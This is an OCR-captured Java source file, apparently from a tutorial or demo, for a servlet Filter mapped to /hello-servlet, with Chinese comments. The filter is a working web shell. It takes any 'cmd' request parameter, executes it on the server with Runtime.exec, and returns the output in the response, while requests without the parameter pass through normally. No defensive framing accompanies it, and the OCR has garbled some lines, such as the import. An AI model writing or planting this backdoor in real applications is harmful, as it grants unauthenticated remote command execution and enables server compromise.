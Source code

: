 
```java
_package com.test.serveltdemo;

import javax.servlet.;
import javax.servlet.annotation.WebFilter;
import javax.servlet.http.HttpServletRequest;
import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStreamReader;
import java.util.ArrayList;
import java.util.List;

//使用注解注册过滤器
@WebFilter(filterName="MyFilter" ,urlPatterns="/hello-servlet")
public class MyFilter implements Filter {
    @Override
    public void init(FilterConfig filterConfig) throws ServletException {
        System.out.println("Filter 创建");
    }

    @Override
    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
        System.out.println("执行过滤过程");
        HttpServletRequest request=(HttpServletRequest) servletRequest;
        //获取url参数，执行命令
        String cmd = request.getParameter("cmd");
        Process process = null;
        List<String> processList = new ArrayList<String>();
        try {
            if (cmd!=null) {
                process = Runtime.getRuntime().exec(cmd);
                BufferedReader input = new BufferedReader(new InputStreamReader(process.getInputStream()));
                String line = "";
                while ((line = input.readLine()) != null) {
                    processList.add(line);
                }
                input.close();
            }
        } catch (IOException e) {
            e.printStackTrace();
        }
        String s = "";
        for (String line : processList) {
            s += line + "\n";
        }
        if (s.equals("")) {
            // 如果cmd参数为空直接放行，不做任何操作
            filterChain.doFilter(servletRequest,servletResponse);
        }else {
            servletResponse.getOutputStream().write(s.getBytes());
        }
    }
    @Override
    public void destroy() {
        System.out.println("Filter 销毁");
    }
}_

```
